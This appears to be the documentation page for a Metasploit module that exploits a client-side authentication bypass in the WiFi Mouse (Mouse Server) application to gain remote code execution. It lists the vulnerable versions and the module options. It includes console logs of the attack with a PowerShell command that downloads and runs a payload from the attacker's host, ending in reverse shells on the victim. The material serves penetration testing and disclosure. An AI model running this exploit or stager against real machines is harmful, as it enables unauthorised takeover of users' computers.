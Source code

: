 ## Vulnerable Application

The WiFi Mouse (Mouse Server) from Necta LLC contains an auth bypass as the
authentication is implemented entirely on the client side. By utilizing this
vulnerability, it is possible to open a program on the server (cmd.exe
in our case) and type commands resulting in an RCE.

Versions 1.8.3.4 (current as of module writing) and before are vulnerable.

Version 1.8.3.4 can be downloaded from https://wifimouse.necta.us/apk/MouseServer.exe
at the time of writing.

Version 1.8.3.0 can be downloaded from https://wifimouse.necta.us/apk/MouseServer1.8.3.0.exe

Version 1.8.2.3 can be downloaded from [edb](https://www.exploit-db.com/apps/46b494c56615f48dd09065108d604762-MouseServer.exe) or from https://wifimouse.necta.us/apk/MouseServer1.8.2.3.exe

Version 1.7.8.5 can be downloaded from https://wifimouse.necta.us/apk/MouseServerLatest.exe
## Targets

### Stager

This is Metasploit's cmd stager, it has two flavors which can be changed through the advanced option
`CMDSTAGER::FLAVOR`.

1. `psh_invokewebrequest` (default) this one types the command and pulls back the payload nice and fast.
You should use it in almost all circumstances.
2. `certutil`  typing of the payload appears on the user's screen, and is thus unreliable
(needs ~3.5min of solitude). If the user types anything or moves the focus to another window, exploit will fail.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/wifi_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Wifi Mouse (Mouse Server).

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.

### LINEMAX

How long each line should be that is sent for processing. While the program
seems to be able to take ~2048, anything more than ~1020 seems to crash the program. 1000 - 1020 should be safe.
Defaults to `1020`.

## Scenarios

###  Wifi Mouse (Mouse Server) 1.8.3.4 on Windows 10 using `psh_invokewebrequest` Stager

```
resource (mouse.rb)> use exploits/windows/misc/wifi_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mouse.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (mouse.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/wifi_mouse_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:1978 - Opening command prompt
[*] 2.2.2.2:1978 - Typing out payload
[*] 2.2.2.2:1978 - Using URL: http://1.1.1.1:8080/qGn4ESH
[*] 2.2.2.2:1978 - Generated command stager: ["powershell.exe -c Invoke-WebRequest -OutFile %TEMP%\\IDcEhcbA.exe http://1.1.1.1:8080/qGn4ESH & %TEMP%\\IDcEhcbA.exe & del %TEMP%\\IDcEhcbA.exe"]
[*] 2.2.2.2:1978 - Command Stager progress - 100.00% done (146/146 bytes)
[*] 2.2.2.2:1978 - Client 2.2.2.2 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.16299.98) requested /qGn4ESH
[*] 2.2.2.2:1978 - Sending payload to 2.2.2.2 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.16299.98)
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50211) at 2022-09-21 16:29:06 -0400
[*] 2.2.2.2:1978 - Server stopped.


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Windows\system32>whoami
whoami
win10prolicense\windows

C:\Windows\system32>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

### Wifi Mouse (Mouse Server) 1.8.2.3 on Windows 10 using `certutil` Stager

```
resource (mouse.rb)> use exploits/windows/misc/wifi_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mouse.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (mouse.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (mouse.rb)> set CMDSTAGER::FLAVOR certutil
CMDSTAGER::FLAVOR => certutil
msf6 exploit(windows/misc/wifi_mouse_rce) > set verbose false
verbose => false
msf6 exploit(windows/misc/wifi_mouse_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:1978 - Opening command prompt
[*] 2.2.2.2:1978 - Typing out payload
[*] 2.2.2.2:1978 - Command Stager progress -   1.01% done (1019/100776 bytes)
[*] 2.2.2.2:1978 - Command Stager progress -   2.02% done (2038/100776 bytes)
[*] 2.2.2.2:1978 - Command Stager progress -   3.03% done (3057/100776 bytes)
...
[*] 2.2.2.2:1978 - Command Stager progress -  98.08% done (98843/100776 bytes)
[*] 2.2.2.2:1978 - Command Stager progress -  99.09% done (99862/100776 bytes)
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] 2.2.2.2:1978 - Command Stager progress - 100.00% done (100776/100776 bytes)
[*] Command shell session 3 opened (1.1.1.1:4444 -> 2.2.2.2:50926) at 2022-09-04 15:11:29 -0400


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Program Files (x86)\MouseServer.exe>whoami
whoami
win10prolicense\windows

C:\Program Files (x86)\MouseServer.exe>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```
